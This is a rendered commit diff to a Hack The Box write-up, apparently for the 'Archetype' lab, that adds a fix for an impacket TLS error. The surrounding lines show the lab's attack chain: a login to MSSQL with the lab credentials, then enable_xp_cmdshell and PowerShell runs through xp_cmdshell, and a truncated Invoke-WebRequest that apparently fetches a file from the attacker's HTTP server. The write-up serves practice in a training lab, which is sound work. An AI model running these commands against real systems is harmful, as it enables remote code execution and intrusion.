

Before and after one commit to marqsmat/cybersec, an R Markdown document (write-ups/htb.rmd): the page in a window 1100 px wide, from 15440 px down. Rendered offline with R 4.5, knitr and Pandoc, with nearby package versions.

Commit message:
Impacket known issue

````diff
--- a/write-ups/htb.rmd
+++ b/write-ups/htb.rmd
@@ -899,9 +899,32 @@ cd http_server
 sudo python3 -m http.server 80
 ```
 
+The command below returns an error
+```{bash eval=F}
+mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.78.109
+[-] [('SSL routines', 'state_machine', 'internal error')]
+```
+
+After searching a little, we see that this is a known issue with a known solution:
+
+* You gotta find the lib files for your impacket `/home/user/.local/lib/python3.11/site-packages/impacket/`.
+
+* Edit your `tds.py`. Find both lines defining the `ctx`:
+```{python eval=F}
+ctx = SSL.Context(SSL.TLSv1_METHOD)
+```
+
+* Change it to
+
+```{python eval=F}
+ctx = SSL.Context(SSL.TLSv1_2_METHOD)
+```
+
+* Don’t forget to change both lines where this happens. Save and you’re done.
+
+We can then proceed:
 
 ```{bash eval=F}
-mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.78.109
 SQL> enable_xp_cmdshell
 SQL> xp_cmdshell "powershell dir \ "
 SQL> xp_cmdshell "powershell Invoke-WebRequest
````
